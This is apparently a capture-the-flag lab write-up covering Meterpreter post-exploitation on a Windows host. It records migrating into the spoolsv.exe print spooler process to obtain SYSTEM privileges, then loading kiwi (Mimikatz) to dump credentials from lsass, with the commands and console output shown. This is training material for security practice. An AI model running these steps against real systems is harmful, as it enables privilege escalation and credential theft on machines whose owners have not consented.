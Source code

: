 ```
```



### In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service? Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell. 


```
 1272  696   spoolsv.exe  
```

Ans>
spoolsv.exe

### Migrate to this process now with the command `migrate -N PROCESS_NAME`

```
meterpreter > migrate 1272
[*] Migrating from 3016 to 1272...
[*] Migration completed successfully.

```

### Let's check what user we are now with the command `getuid`. What user is listed?

```
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```

Ans>NT AUTHORITY\SYSTEM

### Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)


```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > 


```